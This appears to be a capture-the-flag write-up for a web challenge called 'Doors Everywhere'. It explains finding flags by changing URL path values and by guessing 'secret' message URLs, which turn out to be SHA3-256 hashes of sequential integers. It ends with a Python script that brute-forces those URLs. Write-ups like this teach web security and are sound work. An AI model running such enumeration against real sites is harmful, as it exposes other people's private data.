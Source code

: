 # Doors Everywhere

https://secuweb-web.2024-bq.ctfcompetition.com/

![image](./images/de1.png)

https://secuweb-web.2024-bq.ctfcompetition.com/login

![image](./images/de2.png)

https://secuweb-web.2024-bq.ctfcompetition.com/home

![image](./images/de3.png)

## Part 1

> A security update about profiles? There's no way there could be a flag there. Unless?

Clicking on "Profile" button redirects to https://secuweb-web.2024-bq.ctfcompetition.com/profile/guest \
Changing the URL to https://secuweb-web.2024-bq.ctfcompetition.com/profile/admin gives the Flag

## Part 2

> There are a few news articles there, but there's something odd about their URLs...

Clicking on News articles redirect to https://secuweb-web.2024-bq.ctfcompetition.com/news/num where num=1,2,3,4,5,7 \
num=6 gives the flag

## Part 3

> Secret messages! Probably the most secure part of this website. There's no way to guess those URLs. ...Unless?

Clicking on "Send Secret Message" button redirects to https://secuweb-web.2024-bq.ctfcompetition.com/send

![image](./images/de4.png)

Upon inspecting HTML:

```html
<label>Secret ID:
<!--
    FIXME: Hack to show people what the secret ID will be after they send their message. It _usually_
        works, but sometimes it doesn't, if someone takes too long to write their message.
        The real way to fix this is to better explain that they need to actually finish writing
        their message before they can get the link.
        If they really need the link inside the message, for some reason, we should just add
        the ability to edit a message after saving it.
-->
    <input id="secretIdField" type="text" value="Click to display" readonly="" onclick="generateHash('1293')">
</label>
```

And the number inside generateHash gets incremented at every reload

The news article "2024-06-30 - Secret Messages are Live" redirects to article 7, which contains a link to a secret message: https://secuweb-web.2024-bq.ctfcompetition.com/message/67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2

It can be confirmed that the hash in the URL is SHA3-256 hash of '1'

So we need to find the number whose message contains the flag. Good old brute force:

```python
from Crypto.Hash import SHA3_256
import requests

i = 1
while True:
    h_obj = SHA3_256.new()
    num = f'{i}'.encode()
    h_obj.update(num)
    digest = h_obj.hexdigest()

    url = f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{digest}'
    response = requests.get(url)

    if response.status_code == 200:
        print(f"[+] Found at {url}")
        print(response.text)
        if "CTF{" in response.text:
            break
    else:
        print(f"[-] {url} returned status {response.status_code}")
    
    i = i+1
```

